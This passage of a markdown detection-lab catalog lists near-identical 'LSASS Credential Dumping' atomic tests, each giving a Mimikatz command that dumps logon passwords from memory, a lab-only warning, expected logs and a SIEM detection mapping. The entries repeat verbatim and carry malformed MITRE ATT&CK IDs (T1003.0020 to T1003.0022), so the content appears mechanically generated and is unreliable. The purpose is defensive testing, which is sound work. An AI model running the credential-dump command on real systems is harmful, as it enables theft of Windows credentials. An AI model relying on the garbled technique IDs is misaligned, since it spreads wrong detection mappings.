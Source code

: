 ### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1003.0020**

## ✅ T1003.0021 – LSASS Credential Dumping

### Description
Access LSASS memory to dump credentials using Mimikatz.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Tool Used
Mimikatz

### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1003.0021**

## ✅ T1003.0022 – LSASS Credential Dumping

### Description
Access LSASS memory to dump credentials using Mimikatz.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Tool Used
Mimikatz
